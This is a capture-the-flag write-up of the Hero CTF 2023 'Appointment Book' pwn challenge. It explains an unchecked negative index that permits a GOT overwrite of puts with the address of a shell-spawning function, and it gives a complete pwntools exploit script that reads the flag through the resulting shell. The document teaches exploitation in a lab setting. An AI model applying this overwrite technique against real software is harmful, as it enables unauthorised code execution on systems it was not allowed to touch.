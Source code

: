 # Hero CTF 2023 - PWN - Appointment Book

Appointment book was a pwn challenge in Hero CTF worth 298 points.

We are given a binary that gives us our local time and then gives us the option to either list appointments, add an appointment or exit:

```
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-16 08:11:56

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice:
```

Opening up the binary in Ghidra shows us a function `debug_remote` that spawns a shell. This is our win function and we need to find a way to execute it in order to get the flag.

Taking a look at our main function, we see that it firsts fills the memory pointed by `appointments` which is of size 0x80 with 0 bytes, then it gets the current time and converts it to a date using the function timestamp_to_date and displays it :

```c
memset(appointments,0,0x80);
puts("========== Welcome to your appointment book. ==========");
start_time = time((time_t *)0x0);
start_time_date = timestamp_to_date(start_time);
printf("\n[LOCAL TIME] %s\n",start_time_date);
fflush(stdout);
```

After that we see that it calls from within a while true loop the menu function which displays the menu and returns the character inputted by the user. Then depending on the choice, main either calls list_appointments(), create_appointment(), exits, or call out an unknown choice.

We can guess from list_appointments() and create_apppointement(), the structure of appointments in this program. Each appointment first contains a time_t object representing its timestamp and then a pointer to a message (char*) that has at most 62 characters. This is a 64 bit program meaning that the total size of one appointment is 16 bytes because time_t corresponds to a signed long integer (size of 8 bytes) and a pointer is 8 bytes long. The appointments are stored one after another in the memory pointed to by `appointments`. There are a total of 8 appointments that can be stored.

The vulnerability in this program lies in the fact that we can choose the index of the appointment we are adding in create_appointment:

```c
  do {
    printf("[+] Enter the index of this appointment (0-7): ");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402110,&index);
    getchar();
  } while (7 < index);
``` 

As you can see, the appointment indexes should range from 0 to 7 but we are only checking that the appointment is not bigger than 7, meaning that we can input negative numbers. Since that value of index is used to place our data in memory, we can overwrite memory that is placed above `appointments`.

```c
cur_time = (time_t *)(appointments + (long)index * 0x10);
printf("[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): ");
fflush(stdout);
fgets(local_28,0x1e,stdin);
tVar1 = date_to_timestamp(local_28);
*cur_time = tVar1;
printf("[+] Converted to UNIX timestamp using local timezone: %ld\n",*cur_time);
printf("[+] Enter an associated message (place, people, notes...): ");
fflush(stdout);
fgets(local_20,0x3e,stdin);
cur_time[1] = (time_t)local_20;
free(local_28);
```

And we can find above `appointments`, a bunch of pointers to interesting functions we can overwrite:

![Possible functions we can overwrite](/images/Appointment%20Book/poss_fct_overwrite.png)

So what we need to do is overwrite the pointer to one of these functions so that it points to our win function, and then the next time this function is called, it will instead call our win function giving us a shell.

`appointments` is at address 0x4037a0 and if we give an index of -12, since it is multipled by 0x10, we end up overwriting address 0x4036e0 which corresponds to puts.

So how do we link to our win function? Well, we know that each appointment first stores its timestamp and then a message. So we can use timestamp to point to the address of our win function. For our purposes, we only need to know that a timestamp is another way to represent the date we associate to an appointment and it is calculated in this program using standard linux functions, meaning we can use an online timestamp converter to know the date we need to give the program to get a specific timestamp.

Our win function is located at address 0x401336, which corresponds to 4199222 in decimal format, if we look online this corresponds to Wednesday, February 18, 1970 2:27:02 PM GMT, meaning that if we input 1970-02-18 14:27:02 when creating an appointment, we can point to our win function. 

Note that if you are running this program locally and your timezone is not GMT, you need to convert the address you are inputting so that it fits to your timezone. For the remote, we can make use of the fact that at the start of the program, the local time is displayed to know what the correct timezone is.

We can put all of this together in python script (the base of the script is generated using `pwn template --host=static-03.heroctf.fr --port=5000 appointment_book`):

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=static-03.heroctf.fr' '--port=5000' appointment_book
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('appointment_book')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'static-03.heroctf.fr'
port = int(args.PORT or 5000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
io.recv()
io.sendline(b'2')
io.recv()
io.sendline(b'-12')
io.recv()
io.sendline(b'1970-02-18 14:27:02')
io.recv()
io.sendline(b'a')
io.sendline(b'cat flag.txt')
flag = io.recv().decode()
print(flag) 
io.interactive()
```

And the flag is: `Hero{Unch3ck3d_n3g4t1v3_1nd3x_1nt0_G0T_0v3wr1t3_g03s_brrrrrr}`

## Contact

If you have any questions or remarks don't hesitate to reach out on discord to *therokdaba#9872*.

Go back to the [homepage](https://therokdaba.github.io/) of this website.